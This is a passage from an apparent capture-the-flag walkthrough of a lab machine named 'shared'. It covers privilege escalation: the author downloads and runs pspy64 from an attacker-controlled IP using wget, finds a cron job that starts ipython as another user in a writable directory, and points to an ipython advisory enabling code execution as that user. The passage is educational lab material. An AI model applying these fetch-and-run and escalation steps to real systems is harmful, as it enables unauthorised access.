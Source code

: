 
### Step 3
In `/opt` we find the directory `scripts_review` which is empty. The directory is owned by `developer` so we can post scripts/files here, however they are deleted after a short while. 
```bash
james_mason@shared:/opt$ ls -al
drwxrwx---  2 root developer 4096 Jul 14 13:46 scripts_review

james_mason@shared:/opt/scripts_review$ touch test
james_mason@shared:/opt/scripts_review$ ls -al
total 8
drwxrwx--- 2 root developer 4096 Aug 25 06:53 .
drwxr-xr-x 3 root root      4096 Jul 14 13:46 ..
-rw-r--r-- 1 james_mason james_mason    0 Aug 25 06:53 test

james_mason@shared:/opt/scripts_review$ ls -al
total 8
drwxrwx--- 2 root developer 4096 Aug 25 06:53 .
drwxr-xr-x 3 root root      4096 Jul 14 13:46 ..
```

Upload `pspy64` to see if we can make sense why the files are deleted.
```bash
james_mason@shared:/dev/shm$ wget http://10.10.14.4/pspy64
james_mason@shared:/dev/shm$ chmod +x pspy64 
james_mason@shared:/dev/shm$ ./pspy64
[... snip ...]
2022/08/25 06:58:01 CMD: UID=0    PID=6809   | /usr/sbin/CRON -f 
2022/08/25 06:58:01 CMD: UID=1001 PID=6811   | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython 
2022/08/25 06:58:01 CMD: UID=0    PID=6813   | /usr/sbin/CRON -f 
2022/08/25 06:58:01 CMD: UID=1001 PID=6812   | /usr/bin/pkill ipython 
2022/08/25 06:58:01 CMD: UID=0    PID=6814   | /bin/bash /root/c.sh 
2022/08/25 06:58:01 CMD: UID=0    PID=6815   | sleep 5 
2022/08/25 06:58:01 CMD: UID=1001 PID=6816   | /usr/bin/python3 /usr/local/bin/ipython 
2022/08/25 06:58:06 CMD: UID=0    PID=6818   | rm -rf /opt/scripts_review/* 
2022/08/25 06:58:06 CMD: UID=0    PID=6819   | /bin/bash /root/c.sh 
2022/08/25 06:58:06 CMD: UID=0    PID=6821   | 
2022/08/25 06:58:06 CMD: UID=0    PID=6820   | /bin/bash /root/c.sh 
2022/08/25 06:58:06 CMD: UID=0    PID=6822   | /bin/bash /root/c.sh 
2022/08/25 06:58:06 CMD: UID=0    PID=6825   | (s-server) 
2022/08/25 06:58:06 CMD: UID=0    PID=8501   | perl -ne s/\((\d+)\)/print " $1"/ge 
2022/08/25 06:58:06 CMD: UID=0    PID=8502   | pidof redis-server 
2022/08/25 06:58:06 CMD: UID=0    PID=8505   | /sbin/init 

```

**UID 1001** (`dan_smith`) is running a job every minute where he changes into the directory `/opt/scripts_review`, and when there starts `ipython`. 
Reading about `ipython` we find that [there's a vulnerability](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x) that allows users to run code as another user, if they know where (which dir) the victim starts `ipython`.  
